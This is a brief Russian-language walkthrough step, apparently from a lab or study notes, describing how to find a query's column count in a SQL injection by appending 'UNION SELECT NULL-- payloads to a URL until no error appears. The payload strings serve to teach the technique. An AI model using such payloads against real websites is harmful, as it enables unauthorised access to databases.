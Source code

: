 1)Просто добавляем в конец адресной строки 'UNION SELECT NULL--  -> получаем ошибку.
2)Добавим еще NULL-- -> получаем ошибку.
3)Добавим третий NULL-- все получилось, то есть выдается 3 столбца. 
('UNION SELECT NULL, NULL, NULL--)
